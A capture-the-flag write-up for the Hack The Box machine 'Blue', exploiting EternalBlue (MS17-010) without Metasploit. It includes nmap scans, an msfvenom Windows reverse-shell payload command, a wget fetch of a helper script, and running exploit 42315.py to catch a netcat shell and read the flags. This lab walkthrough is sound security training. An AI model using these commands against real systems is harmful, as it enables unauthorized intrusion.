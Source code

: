 Blue without Metasploit:

![Blue](https://user-images.githubusercontent.com/55708909/91400272-fe577080-e85c-11ea-83eb-62df0e7decde.png)

Starting with Nmap Scan :

Nmap -sC -sV -T4 -A -O -oA Blue -p- 10.10.10.40

![Blue_nmap](https://user-images.githubusercontent.com/55708909/91406950-14b2fb80-e860-11ea-963e-24b543e3b6b1.png)

Since basic tools doesn't work therefore again i run nmap vulnerability scan its a kind of methodolgy which is helpful for me.

![Blue_vuln](https://user-images.githubusercontent.com/55708909/91407940-a91d5e00-e860-11ea-9af1-7b89d7ce97fb.png)


Nmap found only one vulnerability that is eternal blue so we are going to exploit it.

![Blue_exploit](https://user-images.githubusercontent.com/55708909/91408457-8b042d80-e861-11ea-90ee-cb9a68007cd4.png)

First create a payload using msfvenom 

msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f exe > shell.exe

edit 42315.py files

![42315_PART_1](https://user-images.githubusercontent.com/55708909/91409346-eaaf0880-e862-11ea-8b35-88a345bb3cf7.png)

![42315_PART_2](https://user-images.githubusercontent.com/55708909/91409465-103c1200-e863-11ea-8e7d-b6e316b7b6fb.png)

Before running the exploit you need one more file that is mysmb.py files which you can get it from here

wget https://raw.githubusercontent.com/helviojunior/MS17-010/master/mysmb.py

now open a netcat session at port 4444 and run the exploit using these commands : python 42315.py 10.10.10.40

Here we have a netcat session from target machine.

![Blue_shell](https://user-images.githubusercontent.com/55708909/91410383-76756480-e864-11ea-8f11-642241382da9.png)

Flags:

![Blue_flags](https://user-images.githubusercontent.com/55708909/91410690-e7b51780-e864-11ea-88eb-0a6fdda131c6.png)














